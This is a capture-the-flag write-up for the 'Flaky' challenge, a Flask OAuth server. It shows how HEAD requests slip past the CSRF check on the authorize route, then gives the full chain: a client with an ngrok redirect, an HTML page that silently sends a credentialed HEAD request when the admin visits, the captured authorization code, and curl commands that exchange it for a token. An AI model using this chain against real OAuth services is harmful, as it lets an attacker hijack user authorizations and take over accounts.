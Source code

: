 Flaky is a web app written in Flask, that implements an OAuth server.
We can create an account, and after logging in, we can create OAuth clients. We can also send a URL for admin to see.

 Quick glance into `routes.py` file, and we see this function:

```python
@bp.route('/api/flag')
@require_oauth('flag')
def api_flag():
    user = current_token.user
    if user.username == ADMIN:
        return FLAG
    return 'chCTF{no flag for you} (no, seriously, this is not the flag)'
```

This means that we need to make admin give us permission for `flag`. How do we authorize client for a user? This is done by filling the form at `/oauth/authorize` form. This is analogous to all the "login with" flows that are widely-seen on the internet -- first you log in, then click a button that confirms you authorize the app to do sth. The button itself is a self contained form with CSRF token attached. This means, that we cannot click it by ourselves with simple `fetch` request, because that results in a 500 Bad Request. There's a subtle bug though. CSRF token is validated for POST requests, but isn't for GET requests. So far so good. The code for the route is basically

```python
@bp.route('/oauth/authorize', methods=['GET', 'POST'])
def authorize():
if request.method == 'GET':
    # ... display the authorization form
else:
    # process the form
```

It tourns out, that for `HEAD` requests, `flask` router treats them the same as `GET`, so that the support for them is less burdensome - the route is evaluated, but only the content length is transfered, not data.
Inside the method however, `request.method == 'HEAD'`. `HEAD` doesn't qualify for CSRF checks. This means, that the `else` clause can actually be reached with a `HEAD` request not guarded by CSRF.

I created a client like this:

```
Client Info
  client_id: M2ILFb7upkWxbSS6CZvQ3kro
  client_secret: EDbum3EF5x8LfpVlbQMfQWFzsoFyteaMs4xyiFx6kbetBlQL
  client_id_issued_at: 1595525394
  client_secret_expires_at: 0
Client Metadata
  client_name: aaaa
  client_uri: http://fe0ca3c5fbbc.ngrok.io
  grant_types: ['authorization_code']
  redirect_uris: ['http://fe0ca3c5fbbc.ngrok.io']
  response_types: ['code']
  scope: flag
  token_endpoint_auth_method: client_secret_post
```

With this info, I made following webpage and send the link to the admin:

```html
<script>
    const CLIENT_ID = 'M2ILFb7upkWxbSS6CZvQ3kro';
    const STATE = '111111111111111111111111111111'; // any string of this length
    const url = `http://localhost:8000/oauth/authorize?response_type=code&client_id=${CLIENT_ID}&scope=flag&state=${STATE}`;
    fetch(url, { method: 'HEAD', credentials: 'include', mode: 'no-cors'})
</script>
```

After a while, I got a request:
```
127.0.0.1 - - [23/Jul/2020 20:01:59] "HEAD /?code=enOxpNniZLo6aBtrG1icDqKjXXhNn0vzxaAW2PLoh4TmS0nd&state=111111111111111111111111111111 HTTP/1.1" 200 -
```
From this code, we can obtain authorization token:

```
$ curl -XPOST https://flaky.chujowyc.tf/oauth/token -F client_id=M2ILFb7upkWxbSS6CZvQ3kro -F client_secret=EDbum3EF5x8LfpVlbQMfQWFzsoFyteaMs4xyiFx6kbetBlQL -F grant_type=authorization_code -F scope=flag -F code=enOxpNniZLo6aBtrG1icDqKjXXhNn0vzxaAW2PLoh4TmS0nd
{"access_token": "2NNmqLHIbulPINiDjIom2HnYjdKw6wErMJiCt1NbdM", "expires_in": 864000, "scope": "flag", "token_type": "Bearer"}
```

and get the flag:
```
$ curl -H 'Authorization: Bearer 2NNmqLHIbulPINiDjIom2HnYjdKw6wErMJiCt1NbdM' 'https://flaky.chujowyc.tf/api/flag'
chCTF{tHiS_c0St_G1tHub_25K_buc4s}
```
